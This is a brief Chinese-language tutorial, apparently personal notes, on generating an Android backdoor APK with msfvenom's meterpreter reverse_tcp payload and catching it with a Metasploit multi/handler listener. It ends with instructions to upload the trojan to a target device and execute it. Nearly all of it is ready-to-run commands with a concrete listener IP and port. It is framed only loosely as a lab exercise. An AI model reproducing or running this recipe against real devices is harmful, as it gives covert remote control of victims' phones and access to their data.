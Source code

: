 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台安装手机或者模拟器

# 二、木马生成

1. 生成一个APK后门
2. msfvenom -p android/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} R>k.apk。

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567 R>k.apk

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf
![[1643003592876.png]]

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 载入payload MSF终端中输入： set payload android/meterpreter/reverse_tcp

   ![[1643003612323.png]]
4. 配置payload  MSF终端中输入：show options

5. 配置监控IP MSF中输入：set lhost  <监控的IP>

6. 配置监控端口  MSF中输入：set lporr  <监控的端口>

1. 执行监控  msf终端中输入： run
![[1643003633911.png]]

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用

![[1643003654523.png]]